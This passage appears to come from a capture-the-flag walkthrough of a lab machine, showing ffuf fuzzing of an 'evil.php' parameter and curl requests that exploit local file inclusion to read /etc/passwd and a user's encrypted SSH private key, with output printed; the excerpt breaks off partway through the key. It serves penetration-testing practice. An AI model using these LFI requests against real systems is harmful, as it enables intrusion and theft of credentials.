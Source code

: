 ```
❯ ffuf -c -r -u 'http://192.168.0.243/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/dirb/wordlists/common.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.243/secret/evil.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

command                 [Status: 200, Size: 1398, Words: 13, Lines: 27]
:: Progress: [4614/4614] :: Job [1/1] :: 44 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
Another win! We can use `evil.php` to successfully perform an `LFI` attack.

## User flag

Knowing we have `LFI`, we can begin to enumerate users on the host. This time we grab and view the `/etc/passwd` file for valid users on the system. Using `curl` and `grep`, we can grab `/etc/passwd` and filter for accounts that contain a shell.
```
❯ curl http://192.168.0.243/secret/evil.php?command=/etc/passwd | grep bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1398  100  1398    0     0  1365k      0 --:--:-- --:--:-- --:--:-- 1365k
root:x:0:0:root:/root:/bin/bash
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```
We have a user named `mowree` on the system. We can conduct further enumeration on the system for anything interesting, such as `ssh-keys`.
```
❯ curl http://192.168.0.243/secret/evil.php?command=/home/mowree/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
```